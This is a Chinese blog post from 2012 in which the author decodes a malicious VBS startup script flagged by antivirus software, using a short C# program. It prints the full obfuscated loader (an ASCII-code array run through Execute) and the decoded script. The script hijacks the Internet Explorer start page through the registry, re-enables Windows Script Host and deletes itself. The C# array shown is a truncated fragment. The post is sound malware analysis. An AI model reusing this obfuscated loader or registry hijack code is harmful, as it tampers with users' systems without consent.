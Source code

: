title: 一个恶意vbs脚本的简单解码
tags:
  - C＃
  - windows
  - 安全
  - 笔记
id: 2328
categories:
  - 学习笔记
date: 2012-11-25 09:00:59
---

今天把电脑还原到了11月7号。结果eset更新后报C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup这个目录有个zzs.vbs的不受欢迎的程序，当时没什么事，就打开看看。想知道是个什么东西。

由于eset阻止，我就把文件拖出来。改个后缀。发现代码不长，前半段是ascii码编码的。。
<pre class="lang:default decode:true">strs = Array(68,111,13,10,32,32,32,32,83,101,116,32,111,98,106,87,77,73,83,101,114,118,105,99,101,32,61,32,71,101,116,79,98,106,101,99,116,40,34,119,105,110,109,103,109,116,115,58,92,92,46,92,114,111,111,116,92,99,105,109,118,50,34,41,13,10,32,32,32,32,83,101,116,32,99,111,108,80,114,111,99,101,115,115,101,115,32,61,32,111,98,106,87,77,73,83,101,114,118,105,99,101,46,69,120,101,99,81,117,101,114,121,40,34,83,101,108,101,99,116,32,42,32,102,114,111,109,32,87,105,110,51,50,95,80,114,111,99,101,115,115,34,41,13,10,32,32,32,32,70,111,117,110,100,80,114,111,99,101,115,115,32,61,32,48,13,10,32,32,32,32,70,111,114,32,69,97,99,104,32,111,98,106,80,114,111,99,101,115,115,32,73,110,32,99,111,108,80,114,111,99,101,115,115,101,115,13,10,32,32,32,32,32,32,32,32,73,102,32,111,98,106,80,114,111,99,101,115,115,46,78,97,109,101,32,61,32,34,117,115,101,114,105,110,105,116,46,101,120,101,34,32,84,104,101,110,13,10,32,32,32,32,32,32,32,32,32,32,32,32,70,111,117,110,100,80,114,111,99,101,115,115,32,61,32,49,13,10,32,32,32,32,32,32,32,32,32,32,32,32,69,120,105,116,32,70,111,114,13,10,32,32,32,32,32,32,32,32,69,110,100,32,73,102,13,10,32,32,32,32,78,101,120,116,13,10,32,32,32,32,73,102,32,70,111,117,110,100,80,114,111,99,101,115,115,32,61,32,48,32,84,104,101,110,32,69,120,105,116,32,68,111,13,10,32,32,32,32,87,83,99,114,105,112,116,46,83,108,101,101,112,32,49,48,48,13,10,76,111,111,112,13,10,13,10,115,80,97,103,101,32,61,32,34,104,116,116,112,58,47,47,119,119,119,46,57,57,57,46,99,111,109,47,63,111,110,101,34,13,10,13,10,83,101,116,32,111,98,106,83,104,101,108,108,32,61,32,67,114,101,97,116,101,79,98,106,101,99,116,40,34,87,83,99,114,105,112,116,46,83,104,101,108,108,34,41,13,10,111,98,106,83,104,101,108,108,46,82,101,103,87,114,105,116,101,32,34,72,75,67,85,92,83,111,102,116,119,97,114,101,92,77,105,99,114,111,115,111,102,116,92,73,110,116,101,114,110,101,116,32,69,120,112,108,111,114,101,114,92,77,97,105,110,92,83,116,97,114,116,32,80,97,103,101,34,44,32,115,80,97,103,101,13,10,13,10,115,82,101,103,80,97,116,104,32,61,32,34,72,75,76,77,92,83,79,70,84,87,65,82,69,92,77,105,99,114,111,115,111,102,116,92,87,105,110,100,111,119,115,32,83,99,114,105,112,116,32,72,111,115,116,92,83,101,116,116,105,110,103,115,34,13,10,79,110,32,69,114,114,111,114,32,82,101,115,117,109,101,32,78,101,120,116,13,10,105,69,110,97,98,108,101,100,32,61,32,111,98,106,83,104,101,108,108,46,82,101,103,82,101,97,100,32,95,13,10,40,115,82,101,103,80,97,116,104,32,38,32,34,92,69,110,97,98,108,101,100,95,34,41,13,10,73,102,32,69,114,114,46,78,117,109,98,101,114,32,61,32,48,32,84,104,101,110,13,10,32,32,32,32,111,98,106,83,104,101,108,108,46,82,101,103,87,114,105,116,101,32,115,82,101,103,80,97,116,104,32,38,32,34,92,69,110,97,98,108,101,100,34,44,32,105,69,110,97,98,108,101,100,44,32,34,82,69,71,95,68,87,79,82,68,34,13,10,32,32,32,32,111,98,106,83,104,101,108,108,46,82,101,103,68,101,108,101,116,101,32,115,82,101,103,80,97,116,104,32,38,32,34,92,69,110,97,98,108,101,100,95,34,13,10,69,110,100,32,73,102,13,10,13,10,83,101,116,32,111,98,106,83,104,101,108,108,32,61,32,67,114,101,97,116,101,79,98,106,101,99,116,40,34,83,99,114,105,112,116,105,110,103,46,70,105,108,101,83,121,115,116,101,109,79,98,106,101,99,116,34,41,13,10,83,101,116,32,102,32,61,32,111,98,106,83,104,101,108,108,46,71,101,116,70,105,108,101,40,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101,41,13,10,73,102,32,102,46,65,116,116,114,105,98,117,116,101,115,32,65,110,100,32,49,32,84,104,101,110,32,102,46,65,116,116,114,105,98,117,116,101,115,32,61,32,102,46,65,116,116,114,105,98,117,116,101,115,32,45,32,49,13,10,111,98,106,83,104,101,108,108,46,68,101,108,101,116,101,70,105,108,101,32,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101)</pre>
后半段是
<pre class="lang:default decode:true">For i = 0 To UBound(strs)
    runner = runner &amp; Chr(strs(i))
Next
Execute runner</pre>
虽说对vbs不怎么熟，但也知道vbs经常用来写个启动项啊。加个用户啊。之类的。后半句很好懂。就是把ascii码转换成字符串，然后执行。字面意思看看就行了。其实应该可以直接将Execute runner 改为 MsgBox runner就能输出了。但eset不能关闭。所以最后还是选择用C#来写了。

解码嘛。很简单。VS刚好开着。直接写吧。
<pre class="lang:default decode:true"> byte[] strs = {68，101,116,70,105,108,101,40,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101,41,13,10,73,102,32,102,46,65,116,116,114,105,98,117,116,101,115,32,65,110,100,32,49,32,84,104,101,110,32,102,46,65,116,116,114,105,98,117,116,101,115,32,61,32,102,46,65,116,116,114,105,98,117,116,101,115,32,45,32,49,13,10,111,98,106,83,104,101,108,108,46,68,101,108,101,116,101,70,105,108,101,32,87,83,99,114,105,112,116,46,83,99,114,105,112,116,70,117,108,108,78,97,109,101};
        System.Text.ASCIIEncoding asciiEncoding = new System.Text.ASCIIEncoding();
        Console.WriteLine(asciiEncoding.GetString(strs));</pre>
运行后输出
<pre class="lang:default decode:true">Do
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set colProcesses = objWMIService.ExecQuery("Select * from Win32_Process")
    FoundProcess = 0
    For Each objProcess In colProcesses
        If objProcess.Name = "userinit.exe" Then
            FoundProcess = 1
            Exit For
        End If
    Next
    If FoundProcess = 0 Then Exit Do
    WScript.Sleep 100
Loop

sPage = "http://www.999.com/?one"

Set objShell = CreateObject("WScript.Shell")
objShell.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", s
Page

sRegPath = "HKLM\SOFTWARE\Microsoft\Windows Script Host\Settings"
On Error Resume Next
iEnabled = objShell.RegRead _
(sRegPath &amp; "\Enabled_")
If Err.Number = 0 Then
    objShell.RegWrite sRegPath &amp; "\Enabled", iEnabled, "REG_DWORD"
    objShell.RegDelete sRegPath &amp; "\Enabled_"
End If

Set objShell = CreateObject("Scripting.FileSystemObject")
Set f = objShell.GetFile(WScript.ScriptFullName)
If f.Attributes And 1 Then f.Attributes = f.Attributes - 1
objShell.DeleteFile WScript.ScriptFullName</pre>
结合后半段。简单读一读，就知道这个先找了一下userinit.exe进程。然后改了注册表并且设置了浏览器首页为999这个什么网站，我打开发现是个导航站。。人家hao123做个导航站赚钱了。。你们要不要这样跟风啊。。
